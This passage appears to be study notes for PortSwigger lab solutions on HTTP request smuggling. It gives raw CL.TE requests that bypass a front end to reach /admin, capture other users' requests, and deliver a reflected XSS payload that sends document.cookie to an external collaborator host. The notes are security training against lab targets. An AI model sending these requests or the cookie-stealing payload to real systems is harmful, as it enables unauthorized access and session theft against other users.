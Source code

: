 4. CL.TE vulnerability-bypass FE Security or CL.TE Multicase. ([original lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te))
   > Observe that you can now access the admin panel.
   ```HTTP
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 116
   Transfer-Encoding: chunked

   0

   GET /admin HTTP/1.1
   Host: localhost
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 10

   x=
   ```
   
5. <a name="http-req-smugg-deliver-reflected-xss">HTTP request smuggling to deliver reflected XSS</a>. ([original lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)).
   > Smuggle this XSS request to the back-end server, so that it exploits the next visitor
   > Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
   
   ```HTTP
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 150
   Transfer-Encoding: chunked

   0

   GET /post?postId=5 HTTP/1.1
   User-Agent: a"/><script>document.location='http://OASTIFY.COM/?c='+document.cookie;</script>
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 5

   x=1
   ```
   
6. HTTP request smuggling to capture other users' requests or CL.TE multicase content-length. ([original lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests))
   > Send the **Comment** request by shuffling the `comment` parameter to the end of the body request. ensure it works.
   
   ```HTTP
   POST / HTTP/1.1
   Host: TARGET.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 242
   Transfer-Encoding: chunked

   0

   POST /post/comment HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 928
   Cookie: session=HackerCurrentCookieValue

   csrf=ValidCSRFCookieValue&postId=8&name=c&email=c%40c.c&website=&comment=c
   ```
   
